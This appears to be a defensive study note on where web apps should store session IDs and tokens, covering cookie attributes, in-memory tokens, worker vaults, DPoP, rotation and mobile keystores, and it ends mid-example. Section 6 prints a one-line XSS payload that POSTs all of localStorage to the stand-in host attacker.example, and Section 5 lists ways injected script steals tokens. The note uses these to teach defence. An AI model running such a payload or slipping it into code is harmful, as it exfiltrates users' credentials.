










# Secure Token Storage

> **Date:** 2026-11-06 · **Last updated:** 2026-11-06
> **Category:** Frontend System Design
> **Sub-Topic:** Security / Credential Storage
> **Level:** Advanced · **Reading time:** ~26 min
> **Informs:** where to keep session IDs, access and refresh tokens (cookie vs memory vs Web Storage vs worker), cookie attributes and prefixes, token lifetimes, sender-constrained tokens (DPoP), mobile secure storage, token leakage via logs and URLs

> **Pre-requisite:** [Authentication Flows in SPAs](./authentication-flows-in-spas.md) (which tokens exist and why) and [Browser Storage Mechanisms](../01-web-fundamentals/browser-storage-mechanisms.md) (cookies, Web Storage, IndexedDB).
> This note answers one question in depth: **"Where should this credential live, and what does that choice actually protect against?"**

**Previous:** [Authentication Flows in SPAs](./authentication-flows-in-spas.md) · **Next:** [Subresource Integrity (SRI)](./subresource-integrity-sri.md)

---

## Table of Contents

1. [ELI5 — Simple Explanation](#eli5--simple-explanation)
2. [Section 1: The Threat Model — What Are We Defending Against?](#section-1-the-threat-model--what-are-we-defending-against)
3. [Section 2: Steal vs Use — the Key Distinction](#section-2-steal-vs-use--the-key-distinction)
4. [Section 3: Every Storage Option Compared](#section-3-every-storage-option-compared)
5. [Section 4: HttpOnly Cookies Done Right](#section-4-httponly-cookies-done-right)
6. [Section 5: In-Memory Tokens and Their Limits](#section-5-in-memory-tokens-and-their-limits)
7. [Section 6: Web Storage and IndexedDB](#section-6-web-storage-and-indexeddb)
8. [Section 7: Workers as Token Vaults](#section-7-workers-as-token-vaults)
9. [Section 8: Sender-Constrained Tokens — DPoP and Device Binding](#section-8-sender-constrained-tokens--dpop-and-device-binding)
10. [Section 9: Lifetimes, Rotation and Revocation](#section-9-lifetimes-rotation-and-revocation)
11. [Section 10: Leaks That Bypass Storage Entirely](#section-10-leaks-that-bypass-storage-entirely)
12. [Section 11: Native Mobile and Desktop](#section-11-native-mobile-and-desktop)
13. [Decision Matrix](#decision-matrix)
14. [Real-World Examples](#real-world-examples)
15. [Key Points Summary](#key-points-summary)
16. [Test Your Understanding (with answers)](#test-your-understanding)
17. [Cheat Sheet](#cheat-sheet)
18. [References & Further Reading](#references--further-reading)

---

## ELI5 — Simple Explanation

Your login token is a **house key**. Where do you keep it?

- **`localStorage`** = taping the key **under the doormat**. Convenient, survives forever — and anyone who gets onto the porch (any script on your page, including an XSS payload) can pick it up, copy it and walk away.
- **In-memory variable** = holding the key **in your hand**. Harder to copy, gone when you fall asleep (page reload). But a pickpocket standing next to you (injected script) can still grab your hand when you use it.
- **`HttpOnly` cookie** = a key kept by the **doorman**. You never touch it; the doorman opens the door for you whenever you arrive. A burglar who sneaks in *while you're home* can still ask the doorman to open doors (send requests), but can't take the key home.
- **BFF / server-side session** = the key never leaves the **bank vault**; you just carry a **cloakroom ticket** (opaque session ID in an `HttpOnly` cookie).
- **DPoP / device binding** = a key that **only works with your fingerprint**. Even if copied, it's useless in someone else's hand.

> **No browser storage is safe from XSS. Choose the option that stops the credential from being *stolen and reused elsewhere*, keep it short-lived, and prevent XSS in the first place.**

---

## Core Concept — Step by Step

### Section 1: The Threat Model — What Are We Defending Against?



| Threat | Realistic? | What storage choice changes |
|---|---|---|
| **XSS** (your bug or a supply-chain script) | The #1 risk for SPAs | Whether the token can be **exfiltrated** — never whether it can be **used** |
| **CSRF** | Only for credentials the browser sends **automatically** (cookies) | Cookies need `SameSite` + CSRF defense; bearer headers don't |
| **Malicious extension** | Real, but extensions with broad host permissions can do almost anything | Little — out of scope for most apps |
| **Leaks via URLs/logs** | Common and often overlooked | Independent of storage (Section 10) |
| **Physical/malware access** | Shared or compromised devices | Persistence matters: memory < session cookie < persistent storage |
| **Network sniffing** | Only without HTTPS | `Secure` cookies, HSTS |

> Storage is a **damage-limitation** decision. The real defenses against XSS are output encoding, framework escaping, Trusted Types and CSP — see [XSS Prevention](./xss-prevention-reflected-stored-dom.md) and [Content Security Policy (CSP)](./content-security-policy-csp.md).

---

### Section 2: Steal vs Use — the Key Distinction

Once an attacker runs JavaScript in your origin, two very different outcomes are possible:



| | **Exfiltration** (Case A) | **Session riding** (Case B) |
|---|---|---|
| Attacker needs the page open? | No — token works from the attacker's machine | Yes |
| Lasts how long? | Until token expiry (refresh tokens: days or weeks) | Until the tab closes |
| Detectable? | Requests come from a new IP / device | Requests look like the user's own |
| Prevented by | `HttpOnly` cookies, BFF, sender-constrained tokens | Only by preventing XSS |

**Takeaway:** moving tokens out of JS reach turns a **persistent, remote** compromise into a **temporary, on-page** one. That's a big improvement, but not immunity.

---

### Section 3: Every Storage Option Compared



| Option | Readable by XSS | Sent automatically (CSRF) | Survives reload | Shared across tabs | Typical use |
|---|---|---|---|---|---|
| **`localStorage`** | ✅ Yes | No | ✅ Forever | ✅ | ❌ Not for credentials |
| **`sessionStorage`** | ✅ Yes | No | ✅ Per tab | ❌ (copied when a tab is duplicated) | ❌ Not for credentials; OK for PKCE `state`/verifier |
| **IndexedDB** | ✅ Yes (raw strings) | No | ✅ | ✅ | Non-extractable `CryptoKey` for DPoP only |
| **JS memory (module variable)** | ⚠️ Via hooks / debugger-style tricks | No | ❌ | ❌ | Short-lived access token in a browser OAuth client |
| **Web Worker / Service Worker** | ⚠️ Not directly; page can still ask it to make requests | No | ❌ (SW memory dies when idle) | Worker: ❌ · SW: per origin | Hardening pattern |
| **Cookie without `HttpOnly`** | ✅ `document.cookie` | ✅ | ✅ | ✅ | Non-sensitive prefs, double-submit CSRF token |
| **`HttpOnly` cookie** | ❌ | ✅ | ✅ (or session-only) | ✅ | ✅ Session ID, refresh token |
| **Server-side session (BFF)** | ❌ (only an opaque ID in an `HttpOnly` cookie) | ✅ | ✅ | ✅ | ✅ Recommended for OAuth/OIDC apps |

**Two Safari-specific facts** that affect design: WebKit's Intelligent Tracking Prevention caps the lifetime of **cookies set via `document.cookie`** and of **script-writable storage** for sites the user hasn't interacted with recently (WebKit has described a 7-day cap). Server-set `HttpOnly` cookies from your own first-party server aren't subject to that script-cookie cap. Another reason to set auth cookies from the server.

---

### Section 4: HttpOnly Cookies Done Right

```http
Set-Cookie: __Host-sid=7f3c9a...; Path=/; Secure; HttpOnly; SameSite=Lax; Max-Age=28800
Set-Cookie: __Secure-rt=8d1e0b...; Path=/auth/refresh; Secure; HttpOnly; SameSite=Strict; Max-Age=1209600
```

| Attribute | What it does | Recommendation |
|---|---|---|
| `HttpOnly` | Hidden from `document.cookie` and the Cookie Store API | **Always** for credentials |
| `Secure` | Only sent over HTTPS | **Always** (required for `SameSite=None` and cookie prefixes) |
| `SameSite=Strict` | Never sent on cross-site requests, even top-level navigation | Refresh-token cookies, admin/banking apps |
| `SameSite=Lax` | Sent on top-level `GET` navigations from other sites, not on cross-site subresources or `POST` | Good default for session cookies (links from email still log you in) |
| `SameSite=None` | Sent everywhere (needs `Secure`) | Only for genuinely cross-site embeds; it's a third-party cookie there |
| `Path=/auth/refresh` | Only sent to that path | Keeps the refresh token off every other request |
| `Domain` omitted | **Host-only** — not sent to subdomains | Prefer it; `Domain=example.com` exposes the cookie to every subdomain |
| `Max-Age` / `Expires` | Persistent cookie; omit both for a session cookie | Match the server-side session lifetime |
| `Partitioned` | CHIPS: third-party cookie keyed by top-level site | Embedded widgets only (Chrome 114+, Firefox 141+, Safari 26.2+ per MDN data) |

**Cookie name prefixes** — enforced by browsers, they stop subdomains or insecure pages from overwriting your cookie ("cookie tossing"):



**`SameSite` defaults differ by browser:** Chromium treats a cookie **without** `SameSite` as `Lax`. Firefox and Safari do **not** apply Lax-by-default (MDN compat data). Always set `SameSite` explicitly.

**What a cookie does *not* solve:**
- **CSRF** — the browser attaches it automatically. Use `SameSite`, plus a CSRF token or `Origin` / `Sec-Fetch-Site` checks (see [CSRF Protection](./csrf-protection.md)).
- **Session riding during XSS** (Section 2).
- **Cross-site APIs** — if the API is on a different *site*, the cookie is third-party and is blocked by default in Safari and Firefox. Put the API (or a BFF/proxy) on the same site.
- **Size** — keep cookies small (browsers guarantee only about 4 KB per cookie). Store a session ID, not a JWT with many claims.

---

### Section 5: In-Memory Tokens and Their Limits

When the SPA itself is the OAuth client (no backend), the common recommendation is: **access token in memory, refresh token in an `HttpOnly` cookie or rotating with short lifetime**.



**What memory protects against:** casual reads of persistent storage, tokens surviving on a shared device after the tab closes, and bulk scraping of `localStorage` by a generic payload.

**What it does *not* protect against** — injected script in the same realm can:

```text
1. Override window.fetch or XMLHttpRequest.prototype.setRequestHeader
   → captures the Authorization header on your next API call
2. Call your own API client / auth module if it's reachable (window.__store, devtools hooks)
3. Read framework state (React DevTools hook, Redux store, Pinia/Vuex devtools) if exposed
4. Simply make requests through your app while the page is open
```

Mitigations: keep the token in a **closure or module-private variable** (never on `window` or in a global store), keep access tokens **short-lived** (minutes), don't persist auth state with `redux-persist`/`pinia-plugin-persistedstate`, disable devtools hooks in production, and enforce a strict **CSP** so payloads can't load or send data easily (`connect-src` limits exfiltration targets).

---

### Section 6: Web Storage and IndexedDB

```javascript
// What a typical XSS payload does in one line — no cleverness required
fetch('https://attacker.example/c', { method: 'POST', body: JSON.stringify(localStorage) });
```

- `localStorage` and `sessionStorage` are readable by **every script on the origin**: your code, every npm dependency in the bundle, tag managers, chat widgets, A/B testing snippets — and any injected payload.
- Persistence makes it worse: a token in `localStorage` survives the tab, the browser restart and often the user's assumption that they "logged out".
- **IndexedDB** is no better for raw token strings. Its legitimate security use is storing a **non-extractable `CryptoKey`** (Section 8): script can *use* the key to sign while the page is open, but cannot export the private key bytes.

**Acceptable in Web Storage:** PKCE `code_verifier`/`state` during a redirect (`sessionStorage`, deleted after use), non-sensitive UI preferences, a "was logged in" hint flag for UX (never the credential itself).

---

### Section 7: Workers as Token Vaults

A hardening pattern: keep the token **inside a Web Worker** (or Service Worker) and let the worker make API calls. The main thread never sees the token.



| | Dedicated / Shared Worker vault | Service Worker vault |
|---|---|---|
| How it works | App asks the worker to call the API; worker adds the header | SW intercepts `fetch` events and adds the header |
| Exfiltration by XSS | Hard — no direct access to worker memory | Hard — same |
| Session riding by XSS | ✅ Still possible (just postMessage the worker) | ✅ Still possible (any `fetch` goes through the SW) |
| Persistence | Lost on reload | **SW globals are lost whenever the browser stops an idle SW** — you'd need storage, which reintroduces exposure |
| Complexity | Moderate | High (lifecycle, updates, `clients.claim`) |

**Verdict:** a worker vault raises the bar against token theft for browser-only OAuth clients, but a **BFF achieves the same goal more simply** and also hides the refresh token. Prefer the BFF when you can run a server.

---

### Section 8: Sender-Constrained Tokens — DPoP and Device Binding

A **bearer** token works for whoever holds it. A **sender-constrained** token only works together with a private key the legitimate client holds.



- **DPoP** (RFC 9449, *Demonstrating Proof of Possession*) — application-level; works in browsers with Web Crypto. The private key is created **non-extractable** and stored in IndexedDB, so XSS can sign proofs while the page is open but **cannot copy the key** to use elsewhere.
- **mTLS-bound tokens** (RFC 8705) — certificate-bound; practical for servers and some mobile setups, not for typical browsers.
- **Device Bound Session Credentials (DBSC)** — a Chrome-led web proposal to bind *session cookies* to a device key (TPM-backed where available) so stolen cookies stop working on other machines. Check its current specification and browser status before relying on it.
- RFC 9700 says refresh tokens for public clients must be **either sender-constrained or rotated**.

---

### Section 9: Lifetimes, Rotation and Revocation

Storage location limits *who* can take a credential; lifetime limits *how long* it's useful.



| Credential | Suggested lifetime (tune per risk) | Revocation |
|---|---|---|
| Session ID (server-side) | Idle timeout (e.g. 30 min–8 h) + absolute max | Delete the session row — instant |
| Access token (JWT) | Minutes | Not instant without a deny-list; rely on short `exp` |
| Refresh token | Hours to weeks, **rotated on every use** | Revocation endpoint (RFC 7009); reuse detection revokes the family |
| "Remember me" | Longer-lived session with re-auth for sensitive actions | Device list where users can sign out other sessions |

**Rotate or invalidate on:** login (new session ID), logout, password or MFA change, privilege elevation, suspicious reuse.

---

### Section 10: Leaks That Bypass Storage Entirely

Perfect storage is pointless if the token is copied somewhere else.



**Rules:**
- **Never put tokens in URLs** (`?token=`, `?access_token=`). For WebSockets, authenticate with the cookie on the upgrade request or send a short-lived ticket in the first message.
- **Scrub telemetry:** strip `Authorization`, `Cookie`, `Set-Cookie` and token-looking fields in Sentry/Datadog `beforeSend`, and mask inputs in session replay.
- **Don't serialize tokens into SSR HTML** (`window.__INITIAL_STATE__`) — it's cached, logged and readable by any script.
- Keep `Referrer-Policy` at `strict-origin-when-cross-origin` (the browser default) or stricter.
- HAR files from DevTools contain cookies and headers — tell support teams to sanitize them.

---

### Section 11: Native Mobile and Desktop

| Platform | Secure store | Notes |
|---|---|---|
| **iOS** | **Keychain** (`kSecClassGenericPassword`, accessibility such as `…WhenUnlockedThisDeviceOnly`) | Optionally gate with biometrics via access control flags |
| **Android** | **Android Keystore**-backed encryption | The Jetpack `security-crypto` (`EncryptedSharedPreferences`) library has been deprecated — follow current Android guidance |
| **React Native** | `react-native-keychain`, `expo-secure-store` (Keychain/Keystore under the hood) | ❌ Not `AsyncStorage` — it's unencrypted |
| **Flutter** | `flutter_secure_storage` | Same platform stores |
| **Electron** | `safeStorage` API (OS-level encryption) | Never plain files or `localStorage` in the renderer |
| **WebView-hybrid apps** | Keep tokens on the native side; expose a narrow bridge | Don't inject tokens into WebView JS |

Native apps still follow [Authentication Flows in SPAs](./authentication-flows-in-spas.md): Authorization Code + PKCE in the system browser, short-lived access tokens, rotating refresh tokens.

---

## Decision Matrix



| Requirement | Best fit |
|---|---|
| SSR needs to know the user | Cookie session / BFF |
| Banking, healthcare, admin consoles | BFF + `SameSite=Strict` + short idle timeout |
| Static hosting, third-party OAuth only | Memory + rotating refresh (+ DPoP if available) |
| API on a different **site** | Add a same-site proxy/BFF rather than `SameSite=None` cookies |
| Embedded widget in other sites | `Partitioned` cookie or token via `postMessage` handshake, scoped narrowly |

---

## Real-World Examples

**Example 1 — From `localStorage` to an HttpOnly cookie (BAD → GOOD):**
```typescript
// ❌ BAD: readable by every script on the page, persists forever
const { token } = await (await fetch('/api/login', { method: 'POST', body })).json();
localStorage.setItem('token', token);
fetch('/api/orders', { headers: { Authorization: `Bearer ${localStorage.getItem('token')}` } });

// ✅ GOOD: server sets the cookie; the SPA never touches the credential
await fetch('/api/login', {
  method: 'POST',
  credentials: 'include',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({ email, password }),
});
fetch('/api/orders', { credentials: 'include' }); // cookie attached by the browser
```

**Example 2 — Setting cookies correctly on the server (Express):**
```typescript
